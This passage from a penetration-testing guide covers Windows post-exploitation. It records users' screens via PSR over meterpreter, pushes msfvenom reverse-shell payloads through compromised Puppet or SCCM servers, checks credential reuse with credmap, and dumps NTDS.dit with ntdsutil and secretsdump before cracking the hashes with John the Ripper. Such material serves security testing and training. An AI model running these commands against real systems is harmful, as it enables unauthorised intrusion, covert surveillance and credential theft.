If we have a meterpreter from a windows machine, we can use Problem Steps Recorder ( PSR )(Microsoft In-built tool) to captures screenshots and text descriptions of what a user is doing on their system.

::

 psr.exe [/start |/stop][/output <fullfilepath>] [/sc (0|1)] [/maxsc <value>]
 [/sketch (0|1)] [/slides (0|1)] [/gui (0|1)]
 [/arcetl (0|1)] [/arcxml (0|1)] [/arcmht (0|1)]
 [/stopevent <eventname>] [/maxlogsize <value>] [/recordpid <pid>]

 /start Start Recording. (Outputpath flag SHOULD be specified)
 /stop Stop Recording.
 /sc Capture screenshots for recorded steps.
 /maxsc Maximum number of recent screen captures.
 /maxlogsize Maximum log file size (in MB) before wrapping occurs.
 /gui Display control GUI.
 /arcetl Include raw ETW file in archive output.
 /arcxml Include MHT file in archive output.
 /recordpid Record all actions associated with given PID.
 /sketch Sketch UI if no screenshot was saved.
 /slides Create slide show HTML pages.
 /output Store output of record session in given path.
 /stopevent Event to signal after output files are generated.

Once, we have a meterpreter, we can use shell to execute it 

::

 psr.exe /start /gui 0 /output C:\Users\Dan\Desktop\cool.zip;
 Start-Sleep -s 20;
 psr.exe /stop;

Refer `Using Problem Steps Recorder (PSR) Remotely with Metasploit <https://cyberarms.wordpress.com/2016/02/13/using-problem-steps-recorder-psr-remotely-with-metasploit/>`_ 

Hypervisor
----------

A hypervisor or virtual machine monitor (VMM) is computer software, firmware or hardware that creates and runs virtual machines. Many of times, we would find that the client has deployed a common 4-tier architecture such as development, testing, staging, production (DEV, TEST, STAGING, PROD) on to hypervisor i.e. each environment on one hypervisor. If you compromise the Hypervisor ( mostly attached to Windows Domain ), you would end up compromising whole ( DEV/ TEST/ STAGING and PROD ) environment. Once, we compromised a client SAP environment in such manner.

Targeted Hunting
----------------

As we already have domain administrator privileges, we own the network and possibly have access to every machine. However, we will cover a non-traditional way to strategically target and compromise computers.

Microsoft’s System Center Configuration Manager
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

SCCM is a platform that allows for an enterprise to package and deploy operating systems, software, and software updates. It allows for IT staff to script and push out installations to clients in an automated manner. If you can gain access to SCCM, it makes for a great attack platform. It heavily integrates Windows PowerShell, has excellent network visibility, and has a number of SCCM clients as SYSTEM just waiting to execute your code as SYSTEM.

Enigma has written a awesome blog `Target workstation compromise with SCCM <https://enigma0x3.net/2015/10/27/targeted-workstation-compromise-with-sccm/>`_

Microsoft System Center Operations Manager
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

System Center Operations Manager (SCOM) is a cross-platform data center monitoring system for operating systems and hypervisors. It uses a single interface that shows state, health and performance information of computer systems. It also provides alerts generated according to some availability, performance, configuration or security situation being identified. It works with Microsoft Windows Server and Unix-based hosts.

SCOM also allows to monitor health of the system and provide powershell interface to the machine or provide an ability to execute a script on a particular machine.

Puppet
^^^^^^

Puppet is an open-source software configuration management tool. It runs on many Unix-like systems as well as on Microsoft Windows. It was created to easily automate repetitive and error-prone system administration tasks. Puppet's easy-to-read declarative language allows you to declare how your systems should be configured to do their jobs.

However, if an organization is utilizing puppet to control it servers/ workstations and we have compromised puppet server. We can just create a metasploit meterpreter based on the target operating system ( Windows/ Linux )
using msfvenom.

* Linux

 ::

	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

* Windows

 ::

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

* Mac

 ::

 	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

Create a module in puppet to include this payload using file resource and store in on the targeted machine. Utilizing exec resource, execute the payload and we would receive the meterpreter on the listener.

Tanoy Bose has written the blog on `Enterprise Offense: IT Operations [Part 1] - Post-Exploitation of Puppet and Ansible Servers <http://n0tty.github.io/2017/06/11/Enterprise-Offense-IT-Operations-Part-1/>`_ 

.. todo::

  * The Email- Mailbox Post exploitation -- Also the check if someone has exploited this (check logs) -- which is also connected to Domain? 
  * How does google email works?
  * File Hunting -- Better ways!! Faster ways!!

Credmap: The credential Mapper
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

`credmap <https://github.com/lightos/credmap>`_. is open source tool created by `Roberto Salgado <https://github.com/lightos>`_ to check for credential reuse. It is capable of testing the supplied user credentials on several websites to test if the password has been reused or not. This tool can be of great advantage to check the validation of the gathered credentials on other social media sites as well.

::

 Usage: credmap.py --email EMAIL | --user USER | --load LIST [options]

 Options:
   -h/--help             show this help message and exit
   -v/--verbose          display extra output information
   -u/--username=USER..  set the username to test with
   -p/--password=PASS..  set the password to test with
   -e/--email=EMAIL      set an email to test with
   -l/--load=LOAD_FILE   load list of credentials in format USER:PASSWORD
   -f/--format=CRED_F..  format to use when reading from file (e.g. u|e:p)
   -x/--exclude=EXCLUDE  exclude sites from testing
   -o/--only=ONLY        test only listed sites
   -s/--safe-urls        only test sites that use HTTPS
   -i/--ignore-proxy     ignore system default HTTP proxy
   --proxy               set proxy (e.g. "socks5://192.168.1.2:9050")
   --list                list available sites to test with
   --update              update from the official git repository

 Examples:
 ./credmap.py --username janedoe --email janedoe@email.com
 ./credmap.py -u johndoe -e johndoe@email.com --exclude "github.com, live.com"
 ./credmap.py -u johndoe -p abc123 -vvv --only "linkedin.com, facebook.com"
 ./credmap.py -e janedoe@example.com --verbose --proxy "https://127.0.0.1:8080"
 ./credmap.py --load creds.txt --format "e.u.p"
 ./credmap.py -l creds.txt -f "u|e:p"
 ./credmap.py -l creds.txt
 ./credmap.py --list


.. _A1-Windows-Credentials:

Appendix-I : Windows Credentials
================================

In this section, we have explained the concepts about authentication, credentials and authenticators, credential storage, authentication protocols, logon types. The below has been directly taken from the `Mitigating Pass-the-Hash (PtH) Attacks and Other Credential Theft, Version 1 and 2 <https://www.microsoft.com/en-in/download/details.aspx?id=36036>`_

Terminology: authentication, credentials, and authenticators
------------------------------------------------------------

When a user wants to access a computing resource, they must provide information that identifies who they are, their identity, and proof of this identity in the form of secret information that only they are supposed to know. This proof of identity is called an **authenticator**. An authenticator can take various forms, depending on the authentication protocol and method. The combination of an **identity** and an **authenticator** is called an **authentication credential or credential**. The process of creation, submission, and verification of credentials is described simply as **authentication**, which is implemented through various authentication protocols, such as NTLM and Kerberos authentication. Authentication establishes the identity of the user, but not necessarily the user's permission to access or change a computing resource, which is handled by a separate authorization process.


Credentials in Windows operating systems
----------------------------------------

Credentials are typically created or converted to a form required by the authentication protocols available on a computer. Credentials may be stored in LSASS process memory for use by the account during a session. Credentials must also be stored on disk in authoritative databases, such as the SAM database and the Active Directory database.
        
Identities - usernames
^^^^^^^^^^^^^^^^^^^^^^

In Windows operating systems, a user’s identity takes the form of the account’s username, either the "user name" (SAM Account Name) or the User Principal Name (UPN).

Windows authenticators
^^^^^^^^^^^^^^^^^^^^^^

Windows Credential Types, lists the credential authenticator types in Windows operating systems and provides a brief description of each type.

+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Credential Type       | Description                                                                                                           |
+=======================+=======================================================================================================================+
| Plaintext credentials | When a user logs on to a Windows computer and provides a username and credentials, such as a password or PIN, the     |
|                       | information is provided to the computer in plaintext. This plaintext password is used to authenticate the user’s      |
|                       | identity by converting it into the form required by the authentication protocol. Current versions of Windows also     |
|                       | retain an encrypted copy of this password that can be decrypted back to plaintext for use with authentication methods |
|                       | such as Digest authentication.                                                                                        |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| NT hash               | The NT hash of the password is calculated using an unsalted MD4 hash algorithm. MD4 is a cryptographic one-way        |
|                       | function that produces a mathematical representation of a password. This hashing function is designed to always       |
|                       | produce the same result from the same password input, and to minimize collisions where two different passwords can    | 
|                       | produce the same result. This hash is always the same length and cannot be directly decrypted to reveal the plaintext | 
|                       | password. Because the NT hash only changes when the password changes, an NT hash is valid for authentication until a  |
|                       | user’s password is changed. This also means that if two accounts use an identical password, they will also have an    |
|                       | identical NT password hash.                                                                                           |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| LM Hash               | LAN Manager (LM) hashes are derived from the user password. Legacy support for LM hashes and the LAN Manager          |
|                       | authentication protocol remains in the Windows NTLM protocol suite, but default configurations and Microsoft security |
|                       | guidance have discouraged their use for more than a decade. LM hashes have a number of challenges that make them less |
|                       | secure and more valuable to attackers if stolen:                                                                      |
|                       | - hashes required a password to be less than 15 characters long and contain only ASCII characters.                    |
|                       | - LM Hashes also do not differentiate between uppercase and lowercase letters.                                        |
|                       |                                                                                                                       |
|                       | Techniques to obtain the plaintext value from a LM hash with relatively low effort have been available for a number of| 
|                       | years, so the loss of a LM hash should be considered nearly equivalent to the loss of plaintext password.             |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Windows logon cached  | These verifiers are stored in the registry (HKLM\Security) on the local computer and provide validation of a domain   |
| password verifiers    | user’s credentials when the computer cannot connect to Active Directory during a user logon. These are not            |
|                       | credentials, as they cannot be presented to another computer for authentication, and they can only be used to locally |
|                       | verify a credential.                                                                                                  |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+

Credential Storage
^^^^^^^^^^^^^^^^^^

Credential Storage, lists the types of credential storage locations available on the Windows operating system.


+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Credential sources    | Description                                                                                                           |
+=======================+=======================================================================================================================+
| Security Accounts     | The SAM database is stored as a file on the local disk, and is the authoritative credential store for local accounts  |
| Manager (SAM)         | on each Windows computer. This database contains all the credentials that are local to that specific computer         |
| database              | including the built-in local Administrator account and any other local accounts for that computer.                    |
|                       |                                                                                                                       |
|                       | The SAM database stores information on each account, including the username and the NT password hash. By default,     |
|                       | the SAM database does not store LM hashes on current versions of Windows. It is important to note that no password is |
|                       | ever stored in a SAM database, only the password hashes.                                                              |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Local System Security | The Local Security Authority (LSA) stores credentials in memory on behalf of users with active Windows sessions. This |
| Authority Subsystem   | allows users to seamlessly access network resources, such as file shares, Exchange mailboxes, and SharePoint sites,   |
| ( LSASS ) process     | without reentering their credentials for each remote service. LSA may store credentials in multiple forms including:  |
| memory                | - Reversibly encrypted plaintext                                                                                      |
|                       | - Kerberos tickets (TGTs, service tickets)                                                                            |
|                       | - NT hash                                                                                                             |
|                       | - LM hash                                                                                                             |
|                       |                                                                                                                       |
|                       | If the user logs on to Windows using a smartcard, LSA will not store a plaintext password, but it will store the      |
|                       | corresponding NT hash value for the account and the plaintext PIN for the smartcard.                                  |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| LSA secrets on disk   | A Local Security Authority (LSA) secret is a secret piece of data that is accessible only to SYSTEM account processes.|
|                       | Some of these secrets are credentials that must persist after reboot and are stored in encrypted form on disk.        |
|                       | Credentials stored as LSA secrets on disk may include:                                                                |
|                       | - Account password for the computer’s Active Directory account.                                                       |                
|                       | - Account passwords for Windows services configured on the computer.                                                  |
|                       | - Account passwords for configured scheduled tasks.                                                                   |
|                       | - Account passwords for IIS application pools and websites.                                                           |
|                       | - An attack tool running as an account with administrative privileges on the computer can exploit those privileges to |
|                       |   extract these LSA secrets.                                                                                          |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Domain Active         | The Active Directory database is the authoritative store of credentials for all user and computer accounts in an      |
| Directory Database    | Active Directory domain. Each writable domain controller in the domain contains a full copy of the domain’s Active    |
| ( NTDS.DIT )          | Directory database, including account credentials for all accounts in the domain. Read-only domain controllers (RODCs)|
|                       | house a partial local replica with credentials for a selected subset of the accounts in the domain. By default, RODCs |
|                       | do not have a copy of privileged domain accounts.                                                                     |
|                       |                                                                                                                       |
|                       | The Active Directory database stores a number of attributes for each account, including both username types and the   |
|                       | following:                                                                                                            |
|                       | - NT hash for current password.                                                                                       |
|                       | - NT hashes for password history (if configured).                                                                     |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Credential Manager    | Users may choose to save passwords in Windows using an application or through the Credential Manager Control Panel    |
| (CredMan) store       | applet. These credentials are stored on disk and protected using the Data Protection Application Programming Interface|
|                       | (DPAPI), which encrypts them with a key derived from the user’s password. Any program running as that user will be    |
|                       | able to access credentials in this store.                                                                             |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+

Before we dig down in gathering credentials from a compromised machine, we should understand about Windows authentication protocols

Windows authentication protocols
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The following table provides information on Windows authentication protocols and a brief description of each supported protocol.

+-----------+-----------------------------------------------------------------------------------------------------------------------------+
| Protocol  | Description                                                                                                                 |
+===========+=============================================================================================================================+
| Kerboros  | Kerberos is the default and preferred authentication protocol for domain authentication on current Windows operating        |
|           | systems. Kerberos relies on a system of keys, tickets, and mutual authentication in which keys are normally not passed      |
|           | across the network. (Direct use of the key is permitted for some application clients under certain circumstances).          |
|           | Certain Kerberos-specific objects that are used in the authentication process are stored as LSA secrets in memory,          |
|           | such as Ticket Granting Tickets (TGT) and Service Tickets (ST). TGTs are Single sign-on (SSO) authentication credentials    |
|           | that can be reused for lateral movement or privilege escalation, while STs are not credentials that can be used for lateral |
|           | movement or privilege escalation.                                                                                           |
+-----------+-----------------------------------------------------------------------------------------------------------------------------+
| NTLM      | NTLM protocols are authentication protocols that use a challenge and response method to make clients mathematically prove   |
|           | that they have possession of the NT hash. Current and past versions of Windows support multiple versions of this protocol,  |
|           | including NTLMv2, NTLM, and the LM authentication protocol.                                                                 |
+-----------+-----------------------------------------------------------------------------------------------------------------------------+
| Digest    | Digest is a standards-based protocol typically used for HTTP and Lightweight Directory Access Protocol (LDAP) authentication|
|           | Digest authentication is described in RFCs 2617 and 2831. 								  |
+-----------+-----------------------------------------------------------------------------------------------------------------------------+


.. _A2-Cracking-Hashes:

Appendix-II Cracking Hashes
===========================

Recently, we were given a requirement by a customer to figure out if any user in their Active Directory are using simple passwords!

For this, they provided us with the Active Directory database which can taken from a domain controller by using the below command on a administrative shell.

::

 ntdsutil "ac in ntds" "ifm" "cr fu c:\temp" q q

Once, this database is obtained, it can be converted to the required format 

::

 domain\username:RID:lmhash:nthash:::

by running `Impacket Secretsdump <https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py>`_ 

::

 secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL -outputfile customer

The command above will create a file called "customer.ntds" which we can use for password cracking.

Now, we can try john or hashcat to do the password cracking.

John The Ripper
---------------

LM:NT/ NT-Hashes
^^^^^^^^^^^^^^^^

The above database would have your LM:NT hashes and can be cracked using

::

 john --wordlist=<Word_Dictionary.txt> --format=LM customer.ntds

However, for some strange reason, only 140 hashes were getting loaded in John instead of approx 50K hashes. So, we converted LM:NT hashes to NT hashes.

::

 domain\username:RID:lmhash:nthash::: 

to

::


 domain\username:nthash

and loaded it in John

::

 john --wordlist=<Word_Dictionary.txt> --format=NT customer.nt

 
Instead of our custom dictionary customer provided, we also tried the rockyou.txt and darkc0de.lst dictionaries. However, the customer also wanted to try variations of Passwords such as Password@123, inplace of @, maybe !,#,$,%,^,&,* etc. This thing can be solved with John Rules

Korelogic Rules
^^^^^^^^^^^^^^^

`KoreLogic <http://contest-2010.korelogic.com/rules.html>`_ used a variety of custom rules to generate the passwords. These _same_ rules can be used to crack passwords in corporate environments. These rules were originally created because the default ruleset for John the Ripper fails to crack passwords with more complex patterns used in corporate environments. 

Download `KoreLogic's Custom rules <http://contest-2010.korelogic.com/rules.html>`_  

To use KoreLogic's rules in John the Ripper: download the rules.txt file - and perform the following command in the directory where your john.conf is located.

::

 cat rules.txt >> john.conf


Example command lines are as follows:

::

 # ./john -w:Lastnames.dic --format:nt --rules:KoreLogicRulesAdd2010Everywhere pwdump.txt
 # ./john -w:3EVERYTHING.doc --format:ssha --rules:KoreLogicRulesMonthsFullPreface fgdump.txt
 # ./john -w:Seasons.dic --format:md5 --rules:KoreLogicRulesPrependJustSpecials /etc/shadow

or everything as once

::

 # for ruleset in `grep KoreLogicRules john.conf | cut -d: -f 2 | cut -d\] -f 1`; do echo ./john --rules=${ruleset} --wordlist=sports_teams.dic --format=nt pwdump.txt; done

Loopback?
^^^^^^^^^

John has loopback thing, also where it uses passwords which has been already cracked to crack more passwords.

::

 --loopback[=FILE]         like --wordlist, but fetch words from a .pot file

For more information Refer `John the Ripper CheatSheet <https://countuponsecurity.files.wordpress.com/2016/09/jtr-cheat-sheet.pdf>`_
 
Password Statistics
^^^^^^^^^^^^^^^^^^^

BlackHills has released `Domain Password Audit Tool <https://github.com/clr2of8/DPAT>`_ that will generate password use statistics from password hashes dumped from a domain controller and a password crack file such as hashcat.potfile generated from the Hashcat tool during password cracking.

.. _A3-Interesting-Stories:

Appendix-III Interesting Stories
================================

* `Enumerating Excluded AntiVirus Locations <http://securitypadawan.blogspot.in/2016/01/enumerating-excluded-antivirus-locations.html>`_

* Launching Empire from Meterpreter/ Beacon and passing meterpreter to Metasploit/ Cobalt Strike : Refer Sixdub blog on `Empire & Tool Diversity: Integration is Key <http://www.sixdub.net/?p=627>`_

Tools
-----

* `PowerMemory <https://github.com/giMini/PowerMemory>`_

* `Data Exfiltration Toolkit (DET) <https://github.com/sensepost/DET>`_ 

.. disqus::
